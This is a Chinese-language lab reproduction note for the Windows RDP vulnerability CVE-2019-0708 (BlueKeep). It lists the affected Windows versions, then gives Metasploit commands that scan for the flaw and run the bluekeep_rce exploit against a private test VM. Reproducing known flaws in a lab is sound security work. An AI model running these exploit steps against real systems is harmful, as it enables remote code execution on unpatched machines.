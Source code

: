 （CVE-2019-0708） Windows 远程溢出漏洞
======================================

一、漏洞简介
------------

Windows再次被曝出一个破坏力巨大的高危远程漏洞CVE-2019-0708。攻击者一旦成功利用该漏洞，便可以在目标系统上执行任意代码，包括获取敏感信息、执行远程代码、发起拒绝服务攻击等等攻击行为。而更加严重的是，这个漏洞的触发无需用户交互，攻击者可以用该漏洞制作堪比2017年席卷全球的WannaCry类蠕虫病毒，从而进行大规模传播和破坏。

二、漏洞影响
------------

Windows 7
Windows Server 2008 R2
Windows Server 2008
Windows 2003
Windows XP

三、复现过程
------------

进入msf、搜索0708

**msfconsole**
**search 0708**

使用扫描模块（scanner）

![20191003195616647.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId24.png)

**use auxiliary/scanner/rdp/cve\_2019\_0708\_bluekeep**
**show options**
**set rhost 192.168.237.131 //这里的ip填写自己win7主机的ip**
**run**

![1590935936179.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId25.png)

![1590935980644.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId26.png)

使用利用模块（exploit）

**use exploit/windows/rdp/cve\_2019\_0708\_bluekeep\_rce**
**show targets //选择目标主机类型 这里我选择了7601 -vmware 15**
**set target 4**
**set rhost 192.168.237.131**
**run**

![1590936148050.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId27.png)

![1590936192070.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId28.png)

![1590936228779.png](./.resource/(CVE-2019-0708)Windows远程溢出漏洞/media/rId29.png)

复现成功。
